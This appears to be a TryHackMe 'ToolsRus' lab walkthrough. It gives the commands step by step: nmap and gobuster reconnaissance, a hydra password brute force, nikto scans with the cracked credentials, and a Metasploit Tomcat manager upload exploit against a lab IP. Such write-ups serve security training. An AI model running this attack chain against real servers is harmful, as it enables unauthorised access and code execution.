 # ToolsRus

**Room Link:** [https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (55) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt $VICTIM http-get /protected
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:80/manager/html
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:1234/manager/html 
```

<figure><img src="../../.gitbook/assets/image (11) (9).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfconsole 
```

**Msfconsole**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.194
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
run
```

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

































